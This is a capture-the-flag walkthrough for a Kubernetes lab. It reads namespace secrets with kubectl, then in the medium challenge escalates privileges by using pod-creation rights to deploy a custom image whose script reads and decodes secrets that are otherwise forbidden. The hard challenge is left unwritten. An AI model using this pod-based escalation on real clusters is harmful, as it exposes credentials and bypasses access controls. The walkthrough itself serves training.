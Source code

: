 # First K8S CTF - Walktrough

## Easy challenge
list namespaces:  
```bash
kubectl get ns

NAME              STATUS   AGE
default           Active   7m40s
easy              Active   7m35s
kube-node-lease   Active   7m41s
kube-public       Active   7m41s
kube-system       Active   7m42s
medium            Active   7m35s
```  

You can see two interesting namespaces: `easy` and `medium`.  
We will start from the easy one.  

List the secrets in the *easy* namespace:  
```bash
kubectl -n easy get secrets

NAME                 TYPE     DATA   AGE
definitelynotaflag   Opaque   1      10m
flag                 Opaque   1      10m
```  

Retrieve the `flag` secret:  
```bash
kubectl get secret flag -n easy -o=jsonpath='{.data.flag}' | base64 --decode

this is not the flag!
```  

We are not lucky, let's try with the other secret:  
```bash
kubectl get secret definitelynotaflag -n easy -o=jsonpath='{.data.flag}' | base64 --decode

CTF{easy-flag-XWgkxvenoWWwj1AY}
```  
Congrats! you solved the easy challenge!  
Too easy you say?  
Don't worry, things are gonna get harder from here 😈  

## Medium challenge

List the secrets in the *medium* namespace:  
```bash
kubectl -n medium get secrets

NAME   TYPE     DATA   AGE
db     Opaque   1      17m
flag   Opaque   1      17m
```  
Retrieve the `flag` secret:  
```bash
kubectl get secret flag -n medium -o=jsonpath='{.data.flag}' | base64 --decode

Error from server (Forbidden): secrets "flag" is forbidden: User "ctf1" cannot get resource "secrets" in API group "" in the namespace "medium"
```  

It seems that we are not allowed to retrieve secrets in this namespace...let's confirm this:  
```bash
kubectl auth can-i get secrets --namespace=medium

no
```  
What a shame!  
Let's try to get all the resources we can in the *medium* namespace:  
```bash
kubectl -n medium get all

NAME                                 READY   STATUS             RESTARTS        AGE
nginx-deployment-6b7f675859-ph8t5    1/1     Running            0               23m
nginx-deployment-6b7f675859-vz56h    1/1     Running            0               23m
Error from server (Forbidden): replicationcontrollers is forbidden: User "ctf1" cannot list resource "replicationcontrollers" in API group "" in the namespace "medium"
Error from server (Forbidden): services is forbidden: User "ctf1" cannot list resource "services" in API group "" in the namespace "medium"
Error from server (Forbidden): daemonsets.apps is forbidden: User "ctf1" cannot list resource "daemonsets" in API group "apps" in the namespace "medium"
Error from server (Forbidden): deployments.apps is forbidden: User "ctf1" cannot list resource "deployments" in API group "apps" in the namespace "medium"
Error from server (Forbidden): replicasets.apps is forbidden: User "ctf1" cannot list resource "replicasets" in API group "apps" in the namespace "medium"
Error from server (Forbidden): statefulsets.apps is forbidden: User "ctf1" cannot list resource "statefulsets" in API group "apps" in the namespace "medium"
Error from server (Forbidden): horizontalpodautoscalers.autoscaling is forbidden: User "ctf1" cannot list resource "horizontalpodautoscalers" in API group "autoscaling" in the namespace "medium"
Error from server (Forbidden): cronjobs.batch is forbidden: User "ctf1" cannot list resource "cronjobs" in API group "batch" in the namespace "medium"
Error from server (Forbidden): jobs.batch is forbidden: User "ctf1" cannot list resource "jobs" in API group "batch" in the namespace "medium"
```  
It seems that we are able to retrieve the list of pods in this namespace.  

Are we able to exec into one?
```bash
kubectl -n medium exec nginx-deployment-6b7f675859-ph8t5 -- /bin/sh

Error from server (Forbidden): pods "nginx-deployment-6b7f675859-ph8t5" is forbidden: User "ctf1" cannot create resource "pods/exec" in API group "" in the namespace "medium"
```  
nope.  
At this point, put on your hacker hat and try to engage in some adversarial thinking 🤔  


`hint`: try to play around with **kubectl auth can-i** in order to understand what you can do in this namespace.  

After a while, you will discover that you are able to create pods in the *medium* namespace:  
```bash
kubectl auth can-i create pods --namespace=medium

yes
```  

Knowing this you can attempt to read the secrets from a pod deployed to the *medium* namespace.  
Proceed as follow:  
1. Create the following dockerfile  

```dockerfile
FROM alpine:latest
RUN apk --no-cache add curl
RUN curl -LO https://storage.googleapis.com/kubernetes-release/release/$(curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt)/bin/linux/amd64/kubectl && \
    chmod +x ./kubectl && \
    mv ./kubectl /usr/local/bin/kubectl

# Set the entrypoint script
COPY entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh
ENTRYPOINT ["/entrypoint.sh"]
```  
2. Create the following `entrypoint.sh` file  
```bash
#!/bin/sh

# Read and decode the 'flag' secret
flag_secret=$(kubectl get secret flag -n medium -o=jsonpath='{.data.flag}')
decoded_flag=$(echo "$flag_secret" | base64 -d)

# Read and decode the 'db' secret
db_secret=$(kubectl get secret db -n medium -o=jsonpath='{.data.flag}')
decoded_db=$(echo "$db_secret" | base64 -d)

# Output the decoded secrets
echo "Flag Secret: $decoded_flag"
echo "DB Secret: $decoded_db"
```  

3. Build and push the docker image (you can use a free and disposable public registry like [*ttl.sh*](https://ttl.sh/))
```bash
docker build -t ttl.sh/ctf1:latest . && docker push ttl.sh/ctf1:latest
```  
4. Deploy a pod with that image:  
```bash
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: ctf1-pod
  namespace: medium
spec:
  containers:
  - name: k8sctf1-container
    image: ttl.sh/ctf1:latest
EOF
```  
5. retrieve the list of running podss
```bash
Kubectl -n medium get pods

NAME                                READY   STATUS             RESTARTS        AGE
ctf1-pod                            0/1     Completed          0               1m12s
nginx-deployment-6b7f675859-4pkpk   1/1     Running            0               11m
nginx-deployment-6b7f675859-kvb9c   1/1     Running            0               11m
```  
6. retrieve the logs for that pod
```bash
kubectl -n medium logs ctf1-pod

Flag Secret: this is not the flag!
DB Secret: CTF{medium-flag-zPBBTUPD2mXuZZU3}
```  

Congrats, you pawned the second challenge!  🥳 🎉  

## Hard challenge

**TO DO**  





